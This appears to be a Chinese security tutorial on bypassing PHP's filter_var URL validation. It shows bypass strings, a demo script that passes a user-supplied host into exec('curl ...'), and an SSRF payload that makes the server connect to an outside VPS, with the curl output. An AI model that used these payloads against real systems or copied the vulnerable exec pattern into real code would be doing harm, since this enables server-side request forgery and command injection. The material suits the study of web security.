 (PHP 5 >= 5.2.0, PHP 7)
filter_var — 使用特定的过滤器过滤一个变量

    mixed filter_var ( mixed $variable [, int $filter = FILTER_DEFAULT [, mixed $options ]] )


常见的filter 过滤器
```
FILTER_VALIDATE_EMAIL
FILTER_VALIDATE_DOMAIN
FILTER_VALIDATE_IP
FILTER_VALIDATE_URL
```

比较常用的当属FILTER_VALIDATE_URL了吧，但是它存在很easy的绕过问题:

随便给了两个实例都可以bypass
```
<?php 

$url = "javascript://alert(1)";
$url = "0://1";
if(filter_var($url,FILTER_VALIDATE_URL)){
	echo 'Bypass it';
}
```

### demo1

```
<?php
   $argv = $_GET['url'];
   echo "Argument: ".$argv."\n";
   // check if argument is a valid URL
   if(filter_var($argv, FILTER_VALIDATE_URL)) {
      // parse URL
      $r = parse_url($argv);
      print_r($r);
      // check if host ends with baidu.com
      if(preg_match('/baidu\.com$/', $r['host'])) {
         // get page from URL
         exec('curl -v -s "'.$r['host'].'"', $a);
         print_r($a);
      } else {
         echo "Error: Host not allowed";
      }
   } else {
      echo "Error: Invalid URL";
   }

```

有三重验证，filter_var,parse_url,preg_match 的bypass

在这篇文章： https://medium.com/secjuice/php-ssrf-techniques-9d422cb28d51 给出了绕过方法:

```
url=0://www.blogsir.com.cn:80,baidu.com:80/
```

> 中间的逗号也可以换成 `;` `%0a` `%0d`

原理: 
```
许多URL结构保留一些特殊的字符用来表示特殊的含义，这些符号在URL中不同的位置有着其特殊的语义。字符“;”, “/”, “?”, “:”, “@”, “=” 和“&”是被保留的。除了分层路径中的点段，通用语法将路径段视为不透明。 生成URI的应用程序通常使用段中允许的保留字符来分隔。例如“；”和“=”用来分割参数和参数值。逗号也有着类似的作用。

例如，有的结构使用name;v=1.1来表示name的version是1.1，然而还可以使用name,1.1来表示相同的意思。当然对于URL来说，这些保留的符号还是要看URL的算法来表示他们的作用。

例如，如果用于hostname上，URL“http://evil.com;baidu.com”会被curl或者wget这样的工具解析为host:evil.com，querything:baidu.com
```

这样我们就可以绕过限制访问到我们的vps上来了。

```
Argument: 0://www.blogsir.com.cn:80,baidu.com:80/
Array
(
    [scheme] => 0
    [host] => www.blogsir.com.cn:80,baidu.com
    [port] => 80
    [path] => /
)
* Rebuilt URL to: www.blogsir.com.cn:80,baidu.com/
*   Trying 123.206.65.167...
* Connected to www.blogsir.com.cn (123.206.65.167) port 80 (#0)
> GET / HTTP/1.1
> Host: www.blogsir.com.cn
> User-Agent: curl/7.47.0
> Accept: */*
```

参考: 

Some trick in ssrf and unserialize(): https://www.jianshu.com/p/80ce73919edb
http://skysec.top/2018/03/15/Some%20trick%20in%20ssrf%20and%20unserialize()/